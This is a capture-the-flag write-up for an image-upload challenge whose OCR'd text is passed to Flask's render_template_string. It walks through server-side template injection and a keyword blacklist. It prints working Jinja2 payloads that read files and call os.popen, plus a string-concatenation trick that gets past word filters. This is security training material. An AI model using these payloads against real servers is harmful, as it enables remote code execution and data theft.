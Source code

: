 ## Writeup:
You can upload an image file. This reads the text content in tne image using pytesseract and returns it.  
  
### Intended Solution:
Observe how the text content is returned:  
> return render\_template\_string(f'{content}')  

Clearly this is [Server Side Template Injection](https://portswigger.net/web-security/server-side-template-injection).
You can see various paylods [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2)  
  
  
Also observe that various letters and words are blacklisted:  
>blacklist\_letters = '0123456789%|=+-#'  
blacklist\_words = ['join', 'class', 'globals', 'builtins', 'request', 'self', 'config', 'init']

Because of this blacklist, our payloads are rendered useless:
>Payloads:  
>* {{ ''.\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()[40]('./flag.txt').read() }}  
>* {{ get\_flashed\_messages.\_\_globals\_\_.\_\_builtins\_\_.open("./flag.txt").read() }}
>* {{ config['\_\_class\_\_']['\_\_init\_\_']['\_\_globals\_\_']['os'].popen('ls').read() }}

{ If 'request' was not blacklisted, one could easily bypass blacklist by passing extra parameters and using request.form, request.args or request.values }  

Hmm... Look at line No. 32, where random file names are generated:  
> file_name = 'Image''File_' + str(uuid.uuid4())  

If you play around a bit in python, you observe that 'a''b' concatinates to give 'ab'. (not in variable form) By passing `{{'a''b'}}` in the template, you get 'ab' as the output. We can use this to bypass the blacklist:
>#### {{ get\_flashed\_messages['\_\_glob''als\_\_']['\_\_builti''ns\_\_'].open("./flag.txt").read() }}

Note various other payloads can be used